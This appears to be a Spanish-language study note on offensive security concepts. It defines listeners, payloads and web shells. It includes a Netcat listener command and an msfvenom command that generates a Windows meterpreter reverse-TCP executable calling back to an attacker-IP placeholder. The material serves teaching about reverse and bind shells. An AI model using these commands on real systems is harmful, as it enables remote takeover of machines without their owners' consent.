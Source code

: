 - <u>Definición:</u> Un listener es un proceso configurado por el atacante para esperar una conexión entrante desde una máquina objetivo. El listener es crítico para establecer tanto reverse como bind shells.

- <u>Propósito:</u> El listener actúa como receptor, esperando a que la máquina objetivo inicie una conexión (en reverse shells) o se conecte a un puerto abierto del objetivo (en bind shells).

#### <u>**Herramientas comunes**</u>

- **Netcat (nc):** Una de las herramientas más sencillas y utilizadas para configurar escuchas.
 
- **Metasploit Multi/Handler**: La herramienta `multi/handler` de Metasploit está diseñada para gestionar listeners para varios tipos de payloads, incluyendo reverse shells, proporcionando flexibilidad y características más allá de lo que ofrece Netcat.

**Ejemplo de listener de Netcat**:
```bash
nc -lvp 4444 # escucha en el puerto 4444 cualquier conexión entrante
```

---

### **Payloads**
- <u>Definición:</u> Un payload es una pieza de código que se ejecuta en la máquina objetivo para establecer una conexión de vuelta al atacante o abrir un puerto para que el atacante se conecte. La carga útil puede iniciar un shell inverso o bind y puede variar en función del sistema operativo de destino, el tipo de shell o las necesidades de evasión.

#### Tipos de payloads

- **Payload de shell inversa:** Diseñado para iniciar una conexión saliente desde la máquina objetivo de vuelta al atacante.
- **Payload para bind shell:** Configurar un oyente en el objetivo para que el atacante se conecte.
- **Payloads en scripts:** Los payloads personalizadas también pueden escribirse en lenguajes de scripting como Bash, Python, PowerShell o incluso JavaScript, dependiendo del objetivo y del contexto del ataque.

##### Usando Metasploit para Payloads
Metasploit provee payloads pre-construidos que pueden ser usados para generar reverse o bind shells.

  Ejemplo de comando: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker_IP] LPORT=4444 -f exe -o shell.exe`.


---

### **Web Shells**

- <u>Definición:</u> Un web shell es un tipo de shell que se aloja en un servidor web, permitiendo a los atacantes interactuar con el servidor a través de una interfaz web. Normalmente se trata de un pequeño script subido al servidor para ejecutar comandos del sistema.

#### Propósito y uso
- Los atacantes utilizan web shells para obtener acceso persistente a un servidor web comprometido.
- Las web shells permiten a los atacantes ejecutar comandos, subir archivos y ejecutar scripts adicionales en el servidor.
